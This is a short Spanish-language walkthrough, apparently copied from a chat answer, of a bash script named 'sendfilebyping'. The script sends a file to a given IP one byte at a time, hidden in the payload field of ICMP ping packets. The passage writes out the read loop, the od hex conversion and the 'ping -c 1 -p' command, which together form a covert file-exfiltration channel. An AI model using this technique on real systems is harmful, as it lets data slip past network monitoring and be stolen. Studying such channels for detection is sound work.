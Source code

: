 ### ¿Qué hace exactamente sendfilebyping?

**Comprueba que se pasen 2 argumentos**:

```
- `$1` → dirección IP de destino.
    
- `$2` → ruta del archivo a enviar.
    
- Si no se pasan, muestra ayuda y sale.
    
```

**Lee el archivo carácter por carácter**:

```
bash

CopiarEditar

`while IFS= read -r -n1 char`

- `-n1` → lee un solo carácter a la vez.
    
- `IFS=` evita que se eliminen espacios.
    
```

**Convierte cada carácter a hexadecimal**:

```
bash

CopiarEditar

`HEXVAL=$( echo -n "$char" | od -An -t x1 | tr -d ' ')`

- Usa `od` para obtener el valor hexadecimal del carácter.
    
- Si el carácter está vacío (como un salto de línea), pone `0a` (hex de `\n`).
    
```

**Envía un ping con ese byte en el payload**:

```
bash

CopiarEditar

`/bin/ping $TARGET -c 1 -p $HEXVAL -q >/dev/null`

- El parámetro `-p` permite definir el **payload del ping**.
    
- Esto efectivamente "envía" un carácter hexadecimal a la IP indicada.
    
```
